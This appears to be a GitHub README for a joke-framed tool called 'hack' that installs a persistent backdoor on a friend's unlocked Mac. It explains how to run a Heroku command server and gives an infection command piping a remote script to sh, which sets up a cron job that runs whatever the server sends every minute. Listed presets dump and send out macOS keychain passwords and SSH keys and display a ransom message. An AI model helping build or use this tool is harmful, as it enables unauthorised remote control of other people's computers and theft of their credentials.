 # Hack

This project helps your friends. All you need to do is wait for them to leave their computer unlocked, open up Terminal, and run a single curl command.

[Check out this blog post for more details about how this works](TODO) or jump right in below.

## Getting Started

Clone, install, and link so you can use the `hack` cli tool.

```sh
git clone https://github.com/ccorcos/hack.git
git remote remove origin
cd hack
npm install
npm link
```

If you've never used Heroku before, [signup here](https://signup.heroku.com/) (it's free!) and set up their cli tool on your machine.

```sh
brew install heroku-toolbelt
heroku login
```

Create a Heroku app with an easy name to remember.

```sh
heroku create hacker-chet
```

The following command will get the root url for your Heroku website and put it in your `package.json`. This way the server can inject a root url into the shell scripts.

```sh
npm run init
```

You can stand up the server locally if you want do you can hack yourself and test things out.

```sh
npm start
```

Or you can deploy to Heroku.

```sh
npm run deploy
```

Now you're ready to hack!

## Infecting

To hack someone, run this in their Terminal:

```sh
curl <ROOT_URL>/hack | sh
```

`ROOT_URL` is the specific path to your application. When you're testing locally, this will be `localhost:5000` and when you deploy to Heroku, it will be something like `<APP_NAME>.herokuapp.com`.

What this does is sets up a cron job to ping the `/env/live` endpoint every minute and pipes the result to `sh`. And Heroku gives you HTTPS for free so I wouldn't be too worried about hacking yourself with it. Everything else happens at the commandline using the `hack` cli tool.

## API

- `hack deploy` - deploy your latest changes to Heroku.
- `hack logs` - view your server logs

The following commands are specific to environments and must be followed with a deploy for the changes to be applied to your server.

- `hack <env> exec <cmd>` - execute a command on the remote machine. e.g. `hack live exec "say hello"`
- `hack <env> cron <job>` - add a cronjob to the remote machine [[ref](http://www.nncron.ru/help/EN/working/cron-format.htm)]. e.g. `hack live cron "0 8 * * * say 'good morning'"`
- `hack <env> dump <cmd>` - execute a command on the remote machine and log the result.
- `hack <env> preset <name>` - check the source to see what presets there are and what they do.
- `hack <env> interval <time>` - change the ping interval. options are `1m`, `1d`, `1m`, `1y`
- `hack <env> reset` - reset all cronjobs and ping every minute
- `hack <env> rename <name>` - switch the env that gets pinged
- `hack <env> forget` - removed the ping cronjob to disconnect with the remote machine

## Presets
- `hack <env> preset 420` - say at 4:20PM every day 'its foe 20, ye better be toke-in'
- `hack <env> preset cronjobs` -  dump and send current cron jobs
- `hack <env> preset desktop <image_url>` - set desktop background to image
- `hack <env> preset passwords` - dump and send OSX keychains
- `hack <env> preset ransom <message>` - Opens TextEdit with ransom message
- `hack <env> preset ssh` - dump and send SSH keys

## PS

[A nice resource on how to make a Node.js CLI app.](http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm)
